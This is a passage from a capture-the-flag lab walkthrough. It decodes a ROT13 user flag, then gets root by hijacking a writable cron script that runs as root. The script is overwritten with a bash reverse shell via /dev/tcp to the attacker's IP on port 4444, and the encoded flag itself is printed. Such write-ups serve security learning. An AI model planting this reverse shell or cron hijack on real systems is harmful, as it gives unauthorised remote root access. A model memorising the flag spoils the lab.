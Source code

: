 ```bash
boring@kral4-PC:~$ cat /home/boring/user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0jvgf33zfa0ez4y}
```
The message in the user.txt gave us an indication that it was encoded with ROT13.

```bash
clobee@kali:~/tmp/easypeasy$ echo "synt{a0jvgf33zfa0ez4y}"  |tr '[A-Za-z]' '[N-ZA-Mn-za-m]'
```

#### B.8 What is the root flag?

```bash
boring@kral4-PC:~$ ls -ail /var/www/
total 16
139446 drwxr-xr-x  3 root   root   4096 Jun 15  2020 .
130564 drwxr-xr-x 14 root   root   4096 Jun 13  2020 ..
139447 drwxr-xr-x  4 root   root   4096 Jun 15  2020 html
138531 -rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh
```

```bash
boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh 
#!/bin/bash
# i will run as root
```

```bash
boring@kral4-PC:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

We modified the cron script `.mysecretcronjob.sh` to create a reverse shell on our attack box

```bash
boring@kral4-PC:~$ nano /var/www/.mysecretcronjob.sh

boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh
bash -i &>/dev/tcp/10.11.21.99/4444 <&1
# i will run as root
boring@kral4-PC:~$ 
```
